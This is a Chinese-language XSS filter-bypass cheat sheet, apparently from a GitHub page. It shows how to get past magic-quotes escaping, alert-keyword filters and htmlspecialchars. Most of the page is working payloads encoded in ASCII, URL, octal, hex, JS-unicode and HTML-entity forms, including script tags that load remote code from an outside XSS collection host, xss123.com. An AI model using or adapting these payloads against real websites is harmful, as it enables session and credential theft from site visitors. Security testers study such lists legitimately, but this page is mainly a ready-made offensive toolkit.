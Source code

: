 一、gpc过滤字符  
如果 gpc 开启的时候，特殊字符会被加上斜杠即，'变成\' xss 攻击代码不要带用单引号或双引号。  
绕过gpc：在 php 高版本 gpc 默认是没有的，但是开发程序员会使用 addcslashes()对特殊字符进行转义。  
\<script src='http://www.xss123.com/JGdbsl?1623638390'></script>这个是执行不了的
\<script src=http://www.xss123.com/JGdbsl?1623638390></script> 没有单引号可执行。

二、过滤alert
当页面过滤 alert 这个函数时，因为这个函数会弹窗，不仅很多程序会对他进行过滤，而且很多 waf 都会对其进行拦截。所以payload中不存在 alert 即可。
```html
<script>prompt(/xss/);</script>
<script>confirm(1);</script>
<script src=http://www.xss123.com/eciAKj?1623635663></script>
```

三、过滤标签  
在程序里如果使用html实体过滤，php代码编写时就会使用htmlspecialchars()对输入字符进行实体化。
实体化之后的字符不会在 html 执行。把预定义的字符 "<" （小于）和 ">" （大于）转换为 HTML 实体，构造 xss 恶意代码大多数都必须使用<或者>，这两个字符被实体化后在 html 里就不能执行了。  
```txt
预定义的字符是：
& (和号)成为 &amp
" (双引号)成为 &quot ’ (单引号)成为&#039
< (小于)成为 &lt
>(大于)成为 &gt
```

四、ASCII编码  
```html
<script>alert(String.fromCharCode(88,83,83))</script>
```

五、URL编码  
```html
<a href="javascript:%61%6c%65%72%74%28%32%29">123</a>
```

六、JS编码  
https://www.jb51.net/tools/zhuanhuan.htm

七、8进制编码  
```html
<script>eval("\141\154\145\162\164\50\61\51");</script>
```
八、16进制编码  
```html
<script>eval("\x61\x6c\x65\x72\x74\x28\x31\x29")</script>
```
九、JSunicode编码  

```html
<script>\u0061\u006c\u0065\u0072\u0074('xss');</script>
```
十、HTML编码  

```html
十进制
<img src="x" onerror="&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;" />
<button onclick="confirm('7&#39;);">Button</button>

十六进制
<img src="x" onerror="&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;" />
```
十一、base64编码  
使用伪协议 base64 解码执行 xss。
